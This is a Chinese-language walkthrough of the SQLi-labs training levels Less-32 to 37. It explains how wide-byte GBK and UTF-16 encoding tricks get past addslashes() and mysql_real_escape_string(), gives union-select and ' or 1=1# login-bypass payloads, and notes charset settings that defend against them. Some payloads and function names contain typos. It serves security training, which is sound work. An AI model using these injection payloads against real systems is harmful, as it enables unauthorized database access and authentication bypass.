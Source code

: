 # 十六、答题模式-Less-32~37

### Less-32

因为 urlencode('\\')=%5c%27 ，那么这里我们就利用 %df%5c%27 吃掉用来转义的 \ ，我们可以构造payload: 
    
    ?id=-1%%df%27union%20select%201,user(),3--+

前端显示了 root@localhost 。可以看到，我们绕过了 ' 的过滤。 


### Less-33

本关和Less-32的payload是一样的：

    ?id=-1%%df%27union%20select%201,user(),3--+
    
从源码中可以看到：

    function check_addslashes($string){
        $string= addslashes($string);    
        return $string;
    }

此处过滤使用函数 addalashes() ，函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：
1. 单引号  ( ' )
2. 双引号  ( " )
3. 反斜杠  (  \\ )

**提示**：该函数可用于为存储在数据库中的字符串以及数据库查询语句准备字符串。
Addslashes()函数和我们在Less-32关实现的功能基本一致的，所以我们依旧可以利用 %df 进行绕过。

**Notice**：使用addslashes(),我们需要将 mysql_query 设置为binary的方式，才能防御此漏洞。

    Mysql_query(“SETcharacter_set_connection=gbk,character_set_result=gbk,character_set_client=binary”,$conn);
    

### Less-34

本关卡为post型注入，同样的也是将post过来的内容进行 ' 和 \ 的处理。

上面的例子是利用get请求将urlencode后的 \ 吃到。在Post请求中，此处介绍一个新方法：将utf-8转换为 utf-16 或 utf-32，例如将 ' 转为utf-16的  �'  。

> 个人理解：这里的�是有由类似%%%的东西组成的，然后再加上 ' (即%27)，然后相当于urlencode后类似 %EF%BF%%BD%27 的东西，然后是宽字符漏铜，%EF%BF会组成一个中文字符，而%BD%27也会被当成中文字符，然后php不会进行转义。然后语句流到mysql的时候，Mysql会将三个%转为一个中文字符，然后剩下%27作为引号，以此进行注入。

万能的payload:

    username: �' or 1=1# 
    password: 随便乱填
    
这里是登录成功的，此时的sql语句是：

    SELECT username, password FROM users WHERE username='�' or 1=1#' and password='$passwd' LIMIT 0,1
    
    
### Less-35

本关卡和Less-33是一样的，唯一的区别是sql语句不同，本关没有 ' " 符号的处理，那么我们就没有必要考虑check_addslashes()函数的意义了，直接给payload:

    ?id=-1%20union%20select%201,user(),3--+
    

### Less-36

我们直接看源代码：

    function check_quotes($string){
        $string= mysql_real_escape_string($string);    
        return $string;
    }

上面的check_quotes()函数利用了mysql_real_escape_string()函数进行的过滤。

mysql_real_escape_string()函数转义sql语句中使用的特殊字符：
1. \x00
2. \n
3. \r
4. \
5. '
6. "
7. \x1a

如果成功，则函数返回被转义的字符串。如果失败，则返回false。

但是因为Mysql我们并没有设置成gbk，所以mysql_real_escape_string()依旧能够被突破，方法和以前一样，给出payload:

    ?id=-1%EF%BF%BD%27union%20select%201,user(),3--+

> 个人理解：3个%再加上%27，是以转 utf-16 漏洞绕过。

我们也可以用%df进行绕过，payload:

    ?id=-1%df%27union%20select%201,user(),3--+
    
**Notice**:在使用mysql_real_escape_string()时，如何能够安全的防护这种问题，需要将mysql 设置为gbk 即可。

    # 设置代码：
    Mysql_set_charset(‘gbk’,’$conn’)
    
    
### Less-37

本关卡和Less-34是大致相似的，区别在于post内容使用的是mysql_real_escape_string()，而不是addslashes()函数，但是原理是一致的。

提交内容如下：

    username: �' or 1=1# 
    password: 随便乱填


##### **Summary**:

从上面的几关当中，可以总结一下过滤‘ \ 常用的三种方式是直接replace，addslashes(),mysql_real_escape_string()。三种方式仅仅依靠一个函数是不能完全防御的，所以我们在编写代码的时候需要考虑的更加仔细。同时在上述过程中，我们也给出三种防御的方式，相信仔细看完已经明白了，这里就不赘述了。
